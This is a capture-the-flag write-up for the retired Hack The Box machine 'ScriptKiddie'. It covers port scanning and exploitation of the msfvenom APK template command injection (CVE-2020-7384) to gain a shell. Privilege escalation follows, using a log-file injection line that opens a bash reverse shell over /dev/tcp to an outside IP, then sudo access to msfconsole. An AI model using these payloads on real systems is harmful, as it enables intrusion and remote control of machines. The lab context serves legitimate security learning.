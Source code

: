 ```yaml
---
title: "Scriptkiddie HTB Writeup"
date: 2021-06-05T03:20:36+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "easy",
    "linux",
]
---
```

![Machine Info](/images/sk/1.png)

### 1. Enumeration:
* Nmap:
To scan for open ports and services running
 * ``$ nmap -sC -sV 10.10.10.226 ``
![](/images/sk/2.png)

So we got ssh on (port 22) and a Werkzeug httpd server on (port 5000)

### 2. Web Enumeration:
* Got this interesting page ... 
![](/images/sk/3.png)

* It makes some functions like searchsploit or making nmap scan on IPs, also making metasploit payloads! 

![](/images/sk/4.png)
![](/images/sk/5.png)

#### The interesting part When generating any windows or linux payload, we discover a ``/static/payloads/name.exe`` of generated payloads where we can download from:

![](/images/sk/7.png)
![](/images/sk/6.png)

We also can provide a template for given payload type we are going to generate:

![](/images/sk/8.png)

It includes APK templates allowed and after some googling, found out exploit module for APK templates which uses command injection:
* [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
![](/images/sk/9.png)

  * module options:
![](/images/sk/10.png)

so let's generate an apk file and use it as our template:

* ``use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection``
![](/images/sk/11.png)
* copy the file to your working directory .. ``cp /home/'username'/.msf4/local/msf.apk .``
![](/images/sk/12.png)

* let's make payload with the site:
  * choose android, your lhost ip (tun0) and the template we made (the malicious apk)
![](/images/sk/13.png)

* open netcat listner on the port we choose earlier in the apk (4444) - do this step before generating the payload 
  * ``$ nc -lvnp 4444``  
![](/images/sk/14.png)
And here we got shell as user kid and his flag ...

* note: once you hit generate you will get the shell on your nc listener

### 3. Privilege Escalation:
* Rooting:
  * let's discover files ... 
  * interesting script with lots of permissions ... 
![](/images/sk/15.png)

* let's view it ``cat scanlosers.sh``
![](/images/sk/16.png)

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
*  -d' ' single space used as field separator and -f3- means the ip starts from the 3rd field

#### It's a bash script doing some nmap scan over the logged IPs from the ``/home/kid/logs/hackers`` file.. if we could inject our reverse shell payload in the file and commenting the rest of the file to scape the parsing process; it will be executed by scanlosers.sh and we will get a root shell.. 

* our payload:

``echo "A A  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.17.34/9001 0>&1' #" >> hackers``
* '#' >> for commenting the rest of nmap command and escaping the redirection to /dev/null output ...
![](/images/sk/18.png)

* ``nc -lvnp 9001``
![](/images/sk/19.png)

And we got shell as user ``pwn``.. not root yet! 
  * trying ``sudo -l`` worked without pass
![](/images/sk/20.png)

  * ``(root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole``  >> means we can run metasploit as root 
* ``sudo  /opt/metasploit-framework-6.0.9/msfconsole``

![](/images/sk/21.png)
* here we can go to the root directory and view the root.txt flag:
  * ``/root/root.txt``
![](/images/sk/22.png)
![](/images/sk/23.png)

And we got the root flag ... 

### References:
* [CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)
* [APK template command injection](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)

=======================

Hope you enjoyed the writeup ..

If so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588) ...
